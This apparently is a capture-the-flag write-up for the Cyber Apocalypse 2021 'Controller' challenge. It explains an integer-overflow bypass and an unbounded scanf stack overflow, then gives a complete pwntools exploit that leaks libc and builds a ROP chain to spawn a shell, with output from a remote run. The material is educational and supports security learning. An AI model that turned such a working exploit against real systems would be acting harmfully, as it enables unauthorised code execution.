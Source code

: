 # Cyber Apocalypse 2021

## Controller

> The extraterrestrials have a special controller in order to manage and use our resources wisely, in order to produce state of the art technology gadgets and weapons for them. If we gain access to the controller's server, we can make them drain the minimum amount of resources or even stop them completeley. Take action fast!
> 
> This challenge will raise 33 euros for a good cause.
>
> [`pwn_controller.zip`](`pwn_controller.zip`)

Tags: _pwn_ _x86-64_ _integer-overflow_ _rop_ _bof_ _scanf_


## Summary

Integer overflow to a textbook two-pass (leak/pwn) BOF/ROPchain.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Full RELRO, no got-overwrite.  No canary and no PIE, easy BOF, easy ROP.


### Decompile with Ghidra

```c
void calculator(void)
{
  char local_28 [28];
  uint local_c;
  
  local_c = calc();
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf(&%s,local_28);
    if ((local_28[0] == 'y') || (local_28[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```

`scanf("%s",local_28)` is basically `gets` since the `%s` is unbounded.  If we can get `calc()` to return `0xff3a` (65338), then we can use a classic ROPchain to leak libc and get a shell.

```c
uint calc(void)
{
  float fVar1;
  uint local_18;
  uint local_14;
  int local_10;
  uint local_c;
  
  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d",&local_14,&local_18);
  local_10 = menu();
  if ((0x45 < (int)local_14) || (0x45 < (int)local_18)) {
    printstr("We cannot use these many resources at once!\n");
    exit(0x69);
  }
  if (local_10 == 2) {
    local_c = sub(local_14,local_18);
    printf("%d - %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
    return local_c;
  }
  if (local_10 < 3) {
    if (local_10 == 1) {
      local_c = add(local_14,local_18);
      printf("%d + %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
  }
  else {
    if (local_10 == 3) {
      local_c = mult(local_14,local_18);
      local_c = local_c & 0xffff;
      printf("%d * %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
    if (local_10 == 4) {
      fVar1 = divi(local_14,local_18);
      local_c = (uint)(long)fVar1;
      printf("%d / %d = %d\n",(ulong)local_14,(ulong)local_18,(long)fVar1 & 0xffffffff);
      return local_c;
    }
  }
  printstr("Invalid operation, exiting..\n");
  return local_c;
}
```

Returning `0xff3a` (65338) out of `calc` is trivial since `((0x45 < (int)local_14) || (0x45 < (int)local_18))` will allow negative numbers--integer overflow.

`0 - -65338` = `65338`; our key to admission.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./controller')

if args.REMOTE:
    p = remote('188.166.172.13',30995)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.sendlineafter('recources: ','0 -65338')
p.sendlineafter('> ','2')

pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = 0x28 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.calculator)

p.sendlineafter('> ',payload)

p.recvuntil('ingored\n')
_ = p.recv(6)
puts = u64(_ + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

p.sendlineafter('recources: ','0 -65338')
p.sendlineafter('> ','2')

payload  = b''
payload += 0x28 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendlineafter('> ',payload)
p.recvuntil('ingored\n')
p.interactive()
```

Basic two pass ROPchain.  Both passes start with `0x28` (`local_28`, see Ghidra stack diagram) bytes of garbage.

First, leak libc with `puts`, and then loop around for a second pass.

With the libc location known, and libc provided, pop a shell.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/cyberapocalypsectf2021/controller/controller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 188.166.172.13 on port 30995: Done
[*] '/pwd/datajerk/cyberapocalypsectf2021/controller/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0x7fb46fa22aa0
[*] libc.address: 0x7fb46f9a2000
[*] Switching to interactive mode
$ cat flag.txt
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
```
